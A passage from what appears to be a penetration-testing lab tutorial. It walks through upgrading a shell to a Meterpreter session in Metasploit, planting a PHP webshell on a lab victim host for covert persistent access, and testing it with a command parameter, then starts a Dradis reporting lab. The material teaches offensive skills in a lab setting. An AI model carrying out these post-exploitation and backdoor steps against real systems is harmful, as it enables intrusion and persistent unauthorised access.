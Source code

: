Press <kbd>Ctrl</kbd>+<kbd>Z</kbd> to suspend the shell. Enter `y` to confirm.

Use the shell\_to\_meterpreter module to upgrade your session:
```
use post/multi/manage/shell_to_meterpreter
set session <your Command Shell Session number from before>
run
```

**Note that even though the Meterpreter session has started, this session is backgrounded -- your active shell is still on the attacker machine.** Once the shell_to_meterpreter script completes, run the `sessions` command in Metasploit to list active sessions (shells, Meterpreter, remote desktop, etc.). Find the Meterpreter session you started.

Switch to it by using `sessions -i <id of meterpreter session>`. Run the command `ls /var/www` to verify that you are now accessing the Meterpreter shell on the victim's machine. Meterpreter accepts a different set of commands than the Bash shell you may be used to.

We will upload a webshell to the host to allow us to quietly maintain access to the machine. A webshell is a web page on the victim's web server that runs server-side commands on behalf of the attacker. Kali offers several webshells under */usr/share/webshells*.

![img](https://lh6.googleusercontent.com/68HED-W3f2nLv7xnVSXGbVy7XLwyQBu6IN51z0L6-7F3cUEAhPvuoYSZbYL0Z1R7RWT5g7VuHnQBQ9qz8B2-7MGJJ616VsHcQDWMUy_WiLFXIWozoOE_8h-PW03FSIQV6SXiI9vr)

This webshell takes a shell command through the form of a GET request and runs it. Let's test the webshell in our browser. Navigate to Applications > Favorites and launch Iceweasel. Open the URL http://10.0.0.13/simple-backdoor.php?cmd=whoami

Quiz: Which user was the web service running under on the remote machine?

1. root
2. god
3. www-data
4. the\_real\_slim\_shady

We are going to leave our webshell alone for now and move on to other things.

## Reporting with Dradis
### Introduction
Dradis is an extensible, open source reporting framework for generating reports which can import output from various tools.

### Lab
In this lab, we will see how Dradis create report from results of multiple scan tools

#### Launch Dradis
Start the Dradis service by running `service dradis start` as root. (If you get an error, it may mean the service is already running.)

![img](https://lh4.googleusercontent.com/wIWUYeB-9DAcsj1wyXXM07ANk0o8_swrVif3tYze6PGRaiLnVREzgo1DWEJi-Km0l9VFieamd13WXevWJYpkCqFJVhZ9oG533QMUuCWErUib-A6xrS5uszjx0tCdVRpZjFZcH8gq)

Find the dradis application under the “Reporting Tools” category in Applications and launch it:

![img](https://lh5.googleusercontent.com/gR-bWkMzavjWOR1Un78se0AWJ_ivAXl_PmY2QrnSTXtJ8jQlHV2XJqz2cHok9X-gF6Pk6ooquQ3G6xZfT_G_e_cYCvlMFoKWzUaD5u1ni94TrmYi_gazvqfwNAyseA4uIdnkTzRl) 
